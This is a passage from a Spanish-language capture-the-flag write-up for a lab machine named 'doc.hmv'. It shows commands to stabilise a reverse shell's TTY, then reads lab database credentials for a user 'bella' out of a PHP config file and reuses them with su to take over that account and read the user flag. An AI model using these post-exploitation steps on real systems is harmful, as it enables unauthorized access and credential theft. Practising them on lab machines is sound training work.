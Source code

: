 Vemos que ha funcionado, por lo que vamos a sanitizar la shell.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user bella

Si leemos el archivo de configuracion de la pagina llamado `initialize.php` veremos lo siguiente:

```shell
cd ~/html/traffic_offense
cat initialize.php
```

Info:

```
<?php
$dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');
if(!defined('base_url')) define('base_url','http://doc.hmv/');
if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
if(!defined('dev_data')) define('dev_data',$dev_data);
if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"bella");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"be114yTU");
if(!defined('DB_NAME')) define('DB_NAME',"doc");
?>
```

Veremos las credenciales del usuario llamado `bella` vamos a probarlas de la siguiente forma:

```shell
su bella
```

Metemos como contraseña `be114yTU` y vemos que somo dicho usuario, por lo que vamos a leer la `flag` del usuario.

> user.txt
